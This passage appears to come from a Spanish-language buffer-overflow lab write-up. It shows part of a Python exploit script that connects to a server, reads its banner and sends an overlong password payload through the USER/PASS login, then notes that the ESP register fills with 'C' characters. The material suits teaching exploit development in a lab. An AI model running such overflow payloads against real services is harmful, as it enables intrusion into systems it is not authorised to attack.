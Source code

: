```bash
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + payload + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

Como se puede ver, ahora en el registro ESP, se muestran muchas “C”.

![Untitled](../assets/Buffer-Overflow/Lab1/Asignacion-Espacio/Untitled.png)
